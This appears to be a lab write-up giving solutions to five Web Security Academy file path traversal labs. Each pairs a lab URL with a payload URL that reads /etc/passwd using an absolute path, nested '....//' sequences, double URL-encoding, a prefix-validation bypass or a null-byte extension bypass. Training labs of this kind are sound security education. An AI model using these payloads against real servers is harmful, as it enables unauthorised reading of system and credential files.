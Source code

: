 # Common obstacles to exploiting file path traversal vulnerabilities

## File path traversal, traversal sequences blocked with absolute path bypass

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Target URL:

```
https://ac521f0c1fd60bc6c0b922ec00d400b2.web-security-academy.net/image?filename=1.jpg
```

Modified URL:

```
https://ac521f0c1fd60bc6c0b922ec00d400b2.web-security-academy.net/image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Target URL:

```
https://ac1f1f6a1fb4a48fc089cfcb00f800d5.web-security-academy.net/image?filename=1.jpg
```

Modified URL:

```
https://ac1f1f6a1fb4a48fc089cfcb00f800d5.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Target URL:

```
https://acc11fd31e1e8841c0c64ad0002200be.web-security-academy.net/image?filename=1.jpg
```

Modified URL:

```
https://acc11fd31e1e8841c0c64ad0002200be.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd
```

## File path traversal, validation of start of path

This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Target URL:

```
https://ac9d1f8c1f11369ec029b6d1001400cf.web-security-academy.net/image?filename=/var/www/images/1.jpg
```

Modified URL:

```
https://ac9d1f8c1f11369ec029b6d1001400cf.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

## File path traversal, validation of file extension with null byte bypass

This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Target URL:

```
https://aca61f0c1f8506c8c05671dc0054000b.web-security-academy.net/image?filename=1.jpg
```

Modified URL:

```
https://aca61f0c1f8506c8c05671dc0054000b.web-security-academy.net/image?filename=../../../etc/passwd%00.png
```